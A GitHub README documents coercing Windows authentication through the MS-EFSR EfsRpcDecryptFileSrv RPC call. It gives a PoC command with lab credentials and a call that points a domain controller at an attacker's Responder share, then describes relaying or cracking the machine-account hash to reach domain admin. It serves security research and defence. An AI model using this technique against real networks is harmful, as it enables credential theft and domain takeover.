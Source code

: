 # MS-EFSR - Remote call to EfsRpcDecryptFileSrv (opnum 5)

## Summary

 - **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

 - **Protocol UUID**: c681d488-d850-11d0-8c52-00c04fd90f7e

 - **Protocol version**: 1.0

 - **Function name**: [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78)

 - **Function operation number**: `5`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine.

Then we need to connect to the remote SMB pipe `\PIPE\lsarpc` and bind to (uuid `c681d488-d850-11d0-8c52-00c04fd90f7e`, version `1.0`) in order to perform calls to RPC functions of the `MS-EFSR` protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\lsarpc`. This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. It will then call the remote [`EfsRpcDecryptFileSrv`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78) function on the Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDecryptFileSrv("\\\\192.168.2.51\\share\\file.txt\x00", 0)
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share\file.txt` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

---

## Function technical detail

```cpp
long EfsRpcDecryptFileSrv(
    [in] handle_t binding_h,
    [in, string] wchar_t* FileName,
    [in] unsigned long OpenFlag
);
```

 - **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

 - **FileName**: An EFSRPC identifier as specified in section 2.2.1.

 - **OpenFlag**: This parameter is unused and MUST be ignored by the server. It MUST be set to zero by the client.

## References

 - Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31


 - Documentation of function `EfsRpcDecryptFileSrv`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/043715de-caee-402a-a61b-921743337e78
